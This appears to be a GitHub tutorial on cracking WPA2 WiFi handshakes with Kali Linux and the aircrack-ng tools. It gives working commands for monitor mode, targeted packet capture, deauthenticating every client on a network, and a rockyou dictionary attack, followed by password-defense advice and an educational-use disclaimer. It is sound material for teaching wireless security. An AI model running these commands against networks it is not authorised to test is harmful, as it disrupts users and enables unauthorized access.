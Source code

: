 # Cracking WiFi WPA2 Handshake Guide

This guide provides a step-by-step approach on how to crack a WiFi WPA2 handshake using various tools on Kali Linux. It is intended for educational purposes only. Ensure you adhere to ethical hacking practices such as testing only on networks you own or have explicit permission to analyze.

## Required Technologies and Tools

### Kali Linux
- **Description**: A Linux distribution designed for digital forensics and penetration testing. It includes numerous tools for hacking and security testing.
- **Usage**: Running in a VM (Virtual Machine) environment to isolate testing activities from the main operating system.

### Network Adapter
- **Description**: A device that connects your computer to a network. For hacking WiFi, it must support monitor mode, which allows it to monitor all traffic in the air.
- **Specific Model Used**: ALFA AWUS036NHA Wireless B/G/N USB Adaptor
  - **Features**: 802.11n, 150 Mbps, 2.4 GHz, 5 dBi Antenna, Long Range
  - **Chipset**: Atheros
  - **Compatibility**: Windows XP/Vista 64-Bit/128-Bit, Windows 7, TAA Compliant
  - **Purchase Link**: [Buy here](https://www.amazon.com/gp/product/B004Y6MIXS)

### WiFi Network
- **Description**: The target of the attack, can be a router, modem, or network provided by a network provider.
- **Ethical Considerations**:
  - Ensure adherence to ethical hacking practices.
  - Attack only networks you own or for which you have explicit permission.

## Tools Used in the Process

### Monitoring and Capturing Tools

#### Airmon-ng
- **Description**: Manages wireless interfaces in monitor mode.
- **Usage**: Killing conflicting processes and toggling between monitor and managed modes.

#### Airodump-ng
- **Description**: Captures packet data from the network, useful for identifying the target network and capturing the handshake necessary for cracking.
- **Usage**: Discovering and monitoring wireless networks, capturing WPA2 four-way handshake.

### Network Disruption Tool

#### Aireplay-ng
- **Description**: Injects frames into the network to create traffic that can be used for attack purposes, such as deauthentication.
- **Usage**: Deauthenticating clients from a network to force reconnections, facilitating the capture of the four-way handshake.

### Analysis Tools

#### Wireshark
- **Description**: Analyzes the details of the network traffic, including the contents of captured packets.
- **Usage**: Examining the captured four-way handshake to ensure it has the necessary components for cracking.

#### Aircrack-ng
- **Description**: Cracks network security using the captured information, primarily through the use of dictionary attacks.
- **Usage**: Decrypting the WiFi password using the captured handshake and a password dictionary.

## Setup

1. Download and install Kali Linux on VM Ware Fusion.
2. Purchase and connect a network adapter that supports monitor mode.

## Initial Steps

1. Boot up your Kali Linux VM and connect the network adapter.
2. Open a terminal window and type `iwconfig` to check IP addresses and interfaces. Ensure your wireless LAN adapter (wlan0) is listed.
3. Execute `sudo airmon-ng check kill` to kill any conflicting processes.
4. Switch your network interface to monitor mode with `sudo airmon-ng start wlan0`, then verify with `iwconfig`.

## Network Discovery and Monitoring

1. Discover wireless networks by running `sudo airodump-ng wlan0mon`.
2. To focus on a specific network, execute:
   ```bash
   sudo airodump-ng -w hack1 -c [channel] --bssid [BSSID] wlan0mon
   ```
   Replace `[channel]` and `[BSSID]` with the appropriate network channel and BSSID.

## Network Disruption

1. Open a new terminal window and execute:
   ```bash
   sudo aireplay-ng --deauth 0 -a [BSSID] wlan0mon
   ```
   This will deauthenticate all clients from the network. Use Ctrl+C to stop the process.

## Handshake Capture

1. Monitor the previous terminal window to capture the four-way handshake when a device tries to reconnect.
2. Check for the handshake capture by running `ls` in the terminal.

## Password Cracking

1. Open the captured file in Wireshark and search for the four-way handshake.
2. Perform a dictionary attack using the Rockyou wordlist:
   ```bash
   sudo aircrack-ng [capture-file] -w /usr/share/wordlists/rockyou.txt
   ```
   Replace `[capture-file]` with your capture file path.

## Conclusion

The password, once identified, can illustrate the importance of using strong, unpredictable passwords. For example, even a password like `p@ssw0rd!` with letters, special characters, and numbers can be vulnerable if it follows a predictable pattern.

## Preventing Dictionary Attacks

Dictionary attacks exploit weak passwords by using large lists of common passwords and phrases. To protect against these attacks, it's crucial to adopt robust password policies and security measures.

### Strong Password Policies

1. **Length Matters**: The longer the password, the more combinations a hacker needs to try to crack it. Aim for passwords that are at least 12 characters long.

2. **Complexity**: Use a mix of upper and lower case letters, numbers, and symbols. This diversity significantly increases the number of possible combinations.

3. **Use Random Memorable Phrases**: Instead of single words, consider using random phrases that are easy for you to remember but hard for others to guess. These are less likely to appear in dictionaries.

### Additional Security Strategies

1. **Regular Password Changes**: Encourage or enforce regular password updates. Changing passwords periodically reduces the window of opportunity for a password to be cracked and misused.

2. **Use Multi-Factor Authentication (MFA)**: Adding an additional layer of security by requiring a second form of identification drastically reduces the risk of unauthorized access, even if the password is compromised.

3. **Account Lockout Policies**: Set up account lockouts after a certain number of unsuccessful login attempts. This can discourage brute-force attacks by making them time-consuming and easily detectable.

4. **Educate Users**: Regularly educate users about the importance of security practices, especially regarding how to create strong passwords and recognize phishing attempts.

5. **Avoid Common Pitfalls**: Advise against the use of easily accessible personal information in passwords, such as birthdays or names, as these can often be guessed or found through social engineering.

6. **Use Password Managers**: Encourage the use of password managers. These tools can generate and store complex passwords, reducing the temptation to reuse passwords across multiple sites.

Implementing these strategies can significantly enhance your network's security and resistance to dictionary attacks, protecting sensitive data from unauthorized access.

## Disclaimer

This tutorial is for educational purposes only. Do not attempt to access networks without explicit permission from the rightful owners.

